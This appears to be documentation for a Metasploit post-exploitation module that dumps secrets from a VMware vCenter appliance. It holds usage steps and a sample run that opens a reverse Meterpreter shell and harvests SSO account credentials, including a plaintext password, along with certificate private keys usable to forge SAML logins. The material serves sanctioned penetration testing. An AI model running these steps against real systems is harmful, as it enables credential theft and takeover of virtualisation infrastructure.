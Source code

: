 Grab secrets and keys from the vCenter server and add them to loot. Secrets include the dcAccountDN
and dcAccountPassword for the vCenter machine which can be used for maniuplating the SSO domain via
standard LDAP interface; good for plugging into the vmware_vcenter_vmdir_ldap module or for adding
new SSO admin users. The MACHINE_SSL, VMCA_ROOT and SSO IdP certificates with assocaited private keys
are also plundered and can be used to sign forged SAML assertions for the /ui admin interface.

## Vulnerable Application
This module is tested against the vCenter appliance only; it will not work on Windows vCenter
instances. It is intended to be run after successfully acquiring root access on a vCenter appliance
and is useful for penetrating further into the environment following a vCenter exploit that results
in a root shell. This module has been tested against vCenter appliance versions 7.0 and 6.7 but will
probably work against other versions of vCenter appliance.

## Verification Steps
This is a post module and requires a meterpreter or shell session on the vCenter appliance with root
access.

1. Start msfconsole
2. Get session on vCenter appliance via exploit of your choice and background it
3. Do: `use post/linux/gather/vcenter_secrets_dump`
4. Do: `set session <session>`
15. Do: `dump`

## Options
**SESSION**

Which session to use, which can be viewed with `sessions -l`

## Scenarios
Example run from meterpreter session on vCenter appliance version 7.0.2

```
msf6 > use multi/handler
set payload linux/x86/meterpreter/reverse_tcp
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
set LPORT 4444
msf6 exploit(multi/handler) > set LHOST 192.168.101.10
LHOST => 192.168.101.10
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.101.10:4444 
[*] Sending stage (989032 bytes) to 192.168.100.11
[*] Meterpreter session 1 opened (192.168.101.10:4444 -> 192.168.100.11:53410 ) at 2022-04-17 19:04:00 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/linux/gather/vcenter_secrets_dump
msf6 post(linux/gather/vcenter_secrets_dump) > set session 1
session => 1
msf6 post(linux/gather/vcenter_secrets_dump) > dump

[*] Gathering vSphere SSO Domain Information ...
[*] Extracting dcAccountDN and dcAccountPassword via lwregshell on local vCenter ...
[+] vSphere SSO DC DN: cn=vcenter.cesium137.io,ou=Domain Controllers,dc=vsphere,dc=local
[+] vSphere SSO DC PW: St"7qMYCj)V#PnwS\mw2
[*] Extracting certificates from vSphere platform ...
[*] Fetching objectclass=vmwSTSTenantCredential via vmdir LDAP ...
[*] Parsing vmwSTSTenantCredential certificates and keys ...
[*] Validated vSphere SSO IdP certificate against vSphere IDM tenant certificate
[+] => CHA-CHING! <=
[+] MACHINE_SSL_KEY: /home/cs137/.msf4/loot/20220417190437_default_192.168.100.11_ssl_120856.key
[+] MACHINE_SSL_CERT: /home/cs137/.msf4/loot/20220417190437_default_192.168.100.11_ssl_144111.pem
[+] VMCA_ROOT_KEY: /home/cs137/.msf4/loot/20220417190437_default_192.168.100.11_vmca_345006.key
[+] VMCA_ROOT_CERT: /home/cs137/.msf4/loot/20220417190437_default_192.168.100.11_vmca_676785.pem
[+] SSO_STS_IDP_KEY: /home/cs137/.msf4/loot/20220417190437_default_192.168.100.11_idp_668987.key
[+] SSO_STS_IDP_CERT: /home/cs137/.msf4/loot/20220417190437_default_192.168.100.11_idp_126310.pem
[*] Post module execution completed
```
